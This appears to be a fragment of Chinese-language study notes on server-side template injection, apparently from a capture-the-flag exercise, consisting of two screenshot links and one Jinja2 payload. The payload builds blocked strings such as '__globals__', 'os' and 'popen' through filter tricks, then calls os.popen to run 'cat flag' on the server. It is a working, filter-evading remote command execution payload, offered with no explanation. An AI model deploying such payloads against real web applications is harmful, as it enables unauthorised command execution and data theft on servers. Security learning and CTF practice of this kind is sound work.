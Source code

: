 ![image-20240408215927656](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408215927656.png)

![image-20240408220232823](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408220232823.png)

```py
{%set nine=dict(aaaaaaaaa=a)|join|count%}
{%set eighteen=dict(aaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xhx=(lipsum|string|list)|attr(pop)(eighteen)%}
{%set kg=(lipsum|string|list)|attr(pop)(nine)%}
{%set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join%}
{%set getitem=(xhx,xhx,dict(getitem=a)|join,xhx,xhx)|join%}
{%set os=dict(os=a)|join%}
{%set popen=dict(popen=a)|join%}
{%set flag=(dict(cat=a)|join,kg,dict(flag=a)|join)|join%}
{%set read=dict(read=a)|join%}
{{lipsum|attr(globals)|attr(getitem)(os)|attr(popen)(flag)|attr(read)()}}
```
